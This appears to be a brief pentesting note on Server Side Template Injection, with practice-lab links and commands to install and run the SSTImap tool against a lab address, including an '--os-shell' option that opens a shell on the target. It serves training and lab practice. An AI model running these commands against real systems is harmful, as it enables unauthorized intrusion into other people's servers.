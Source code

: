 ```yaml
---
description: Notes about some basic Server Side Template Injection attack
---
```


# SSTI

Server Side Template Injection (SSTI) is a web exploit which takes advantage of an insecure implementation of a template engine.

### Playground

* [**THM: SSTI**](https://tryhackme.com/r/room/learnssti)
* [**Template Injection Playground**](https://github.com/Hackmanit/template-injection-playground)

### **Identification**

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi0iv7fgV7F-YHL8sJ7iP5oPTMpSGNq5MjD-DUf6s0tVtChHCzTlVGdesajYQKk8OiIuaF2Cc_J34xpeYN6xH4dDZsIQYIF8Iwz7k8uqnrIJhHsKjrErSF-mTE2NpR_dv30YTOhQGCJC4DEQOPKIYmyZsT61AIP2rWQQKwIPZEMzoFmr3Vrg6j9uzC1Zw0/s645/ssti.png" alt=""><figcaption><p>Quick Identification</p></figcaption></figure>

### **Tools**

**SSTImap**

```bash
## Install
git clone https://github.com/vladko312/SSTImap
cd SSTImap
python3 -m venv sstimap_env
source sstimap_env/bin/activate

Usage:
python3 sstimap.py --help
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/*
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/* --engine Jinja2
python3 sstimap.py --random-user-agent --url http://10.10.236.246:5000/profile/* --engine Jinja2 --os-shell
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiMvTINuzGUfEpkZ0S-tc-klF4MTtjcG5RH92D7Eoxt8M3y9U7Pc4L6VZMxmACJB206t6RkbaBWIzd5UGDnFhPMYsdkauvjlUC77thI_7EBlHKbzO1nO-CUw95rTc16b3muYV-VZmAFmwC4bl-vsVOIB0wQcVmK1aCobmUIdWnpre7sjNSMSfHZkkqxQYg/s1353/sstimap.png" alt=""><figcaption><p>SSTImap</p></figcaption></figure>

### Resources

* [https://hackerone.com/reports/125980](https://hackerone.com/reports/125980)
